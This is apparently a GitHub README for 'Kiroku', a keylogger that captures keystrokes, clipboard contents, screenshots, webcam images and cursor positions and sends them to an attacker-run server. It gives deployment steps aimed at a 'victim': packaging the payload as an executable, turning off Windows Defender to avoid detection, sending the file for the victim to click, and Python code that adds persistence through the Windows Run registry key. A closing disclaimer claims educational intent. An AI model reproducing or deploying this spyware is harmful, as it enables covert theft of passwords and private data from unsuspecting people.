 # Kiroku Keylogger

![GIF](https://github.com/Kuraiyume/Kiroku/blob/main/kiroku.gif)

Kiroku Keylogger is a sophisticated tool designed for capturing and monitoring user activities on a target system. It collects information and transmits it to a remote server at regular intervals. 

## Payload Features

- **Keystroke Logging**: Captures all keystrokes, including special keys like Enter, Tab, and Backspace, and sends them to a specified server.
- **Clipboard Monitoring**: Continuously monitors clipboard content, detecting changes and sending the updated data to the server.
- **Screenshot Capture**: Takes screenshots at regular intervals and sends them to the server in a base64-encoded format.
- **Webcam Image Capture**: Takes webcam image at regular intervals and sends them to the server in a base64-encoded format also. (Not Compatible with Linux so we removed it)
- **Mouse Pointer Coordinate Capture**: Continuously monitors the position of the mouse pointer(cursor) based on Coordinates (x, y), detecting changes and sending the updated position to the server.
- **Modifier Key Tracking**: Tracks the state of Ctrl, Alt, and Shift keys to accurately capture key combinations.
- **Configurable Intervals**: Allows customization of the intervals for sending keystrokes, clipboard data, and screenshots.
- **JSON Payloads**: Packages keystrokes, clipboard data, and screenshots into JSON format for server transmission.
- **Threaded Execution**: Runs keystroke logging, clipboard monitoring, and screenshot capture in separate threads for efficient performance.
- **Automatic Transmission**: Periodically sends captured data to the server without user intervention.
- **Base64 Encoding**: Encodes screenshots in base64 format before transmission to reduce the payload size.
- **Platform Compatibility**: Designed to work seamlessly on multiple platforms with minimal configuration changes.

## Server Features

- **Keystroke Logging**: Receives and logs keystrokes from the payload, saving them to a specified file.
- **Clipboard Data Logging**: Captures clipboard content from the payload and saves them to a specified file. 
- **Screenshot Handling**: Receives base64-encoded screenshots from the payload, decodes them, and saves them as PNG files in a specified directory.
- **Webcam Handling**: Receives base64-encoded webcam images from the payload, decodes them, and saves them as a PNG files in a specified directory.
- **Mouse Pointer Coordinate Logging**: Captures mouse pointer coordinates from the payload and saves them to a specified file. 
- **Victim IP Logging**: Logs the IP address of the victim alongside captured data to identify the source.
- **JSON Parsing and Error Handling**: Parses incoming data in JSON format and handles errors like invalid JSON or server issues with detailed logging.
- **Customizable Configuration**: Allows customization of the server port, file paths for saved keystrokes, clipboard data, and screenshot storage directory.
- **Threaded Execution**: Handles incoming POST requests concurrently, ensuring smooth and efficient server performance.
- **Logging**: Provides detailed logging of all activities, including received data, errors, and server operations.
- **Session Persistence**: Automatically reconnects and continues sessions if the server is restarted while the payload is still running, ensuring uninterrupted data capture.
- **Interactive Use**: The server offers GUI Interface for more interactive and customizable listening.

## Installation && Usage

- **Clone the repository:**
  ```bash
  git clone https://github.com/Kuraiyume/Kiroku
  ```

- **Install the necessary libraries:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *You will need to install this in the victim's machine*
  
- **On the attacker machine, run the server:**
  ```bash
  python3 server.py
  ```
  *If Tkinter is not installed, install it using 'sudo apt install python3-tk'*

- **On the victim device configure the payload and run the script:**
  ```bash
  python3 payload_windows.py
  ```
  *If your target is Linux machine:*
  ```bash
  python3 payload_linux.py
  ```

## How to make the payload run without the need of Python Interpreter?

- **You will need to install the required modules for the payload:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *Ensure that all of the modules are installed!*

- **Configure the payload before we turn it to executable, change the server IP, Port, and the time intervals (if needed).**

- **We will use PyInstaller to convert our payload to a standalone executable (PyInstaller is included in the requirements.txt).**

- **We will use the 'payload.spec' file to convert our payload to executable, but first, configure it on how your executable should be packed based on your requirements.**

- **After Configuration, we will use PyInstaller along with the payload.spec to generate us an executable version of the payload:**
  ```bash
  pyinstaller payload_windows.spec
  ```
  *If your target is Linux machine:*
  ```bash
  pyinstaller payload_linux.spec
  ```
  
  *Make sure to build the executable on the same OS as the target system to avoid compatibility issues due to architecture differences.*
  *If you're building the executable on windows, you should turn off the Real-Time Protection in Windows Defender to avoid detection while building.*

- **Once the conversion is done, you will see a dist folder that's where your executable lives. Now all you need to do is run the server on the attacker's machine and send the executable to the victim and wait for the victim to click it, once clicked, the payload will do its work.**
  
  *Ensure all configurations made before the conversion are correct and match the attacker's machine setup.*

- **(Windows Only) If you want to make it persistent when you convert it to executable, you'll need to add a logic in the payload that can move itself to the windows registry when it's executable, Here's how you can do that:**
  1. Import the winreg and sys module to allow your payload to integrate with the registry and file system (sys):
     ```python
     import winreg
     import sys
     ```
  2. Add this function:
     ```python
     def add_to_registry():
         exe_path = sys.executable
         try:
             registry_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_SET_VALUE)
             key_name = 'Kiroku'
             winreg.SetValueEx(registry_key, key_name, 0, winreg.REG_SZ, exe_path)
             winreg.CloseKey(registry_key)
         except Exception as e:
             print(f"Failed to add executable to registry: {e}")
     ```
  3. Call the function to the main guard (AT THE BEGINNING):
     ```python
     if __name__ == "__main__":
         add_to_registry()
     ```
     
## Warning

This tool is intended strictly for educational purposes and ethical hacking only. Unauthorized use of this tool for malicious activities or without explicit consent is illegal and strictly prohibited.

- **Ethical Use Only:** Ensure that you have proper authorization before deploying or using this tool. It is meant to help understand security vulnerabilities and improve defenses, not to invade privacy or engage in unlawful activities.
- **Legal Compliance:** Be fully aware of and comply with all applicable laws and regulations in your jurisdiction. Misuse of this tool can result in severe legal consequences.
- **Responsibility:** The creator of this tool does not condone or support illegal activities. Use this tool responsibly and ethically to advance your knowledge and skills in cybersecurity.
  
Proceed with caution and integrity. Your actions reflect your respect for privacy and the law.

## License

- Kiroku is licensed under the GNU General Public License.

## Author

- Kuraiyume (A1SBERG)

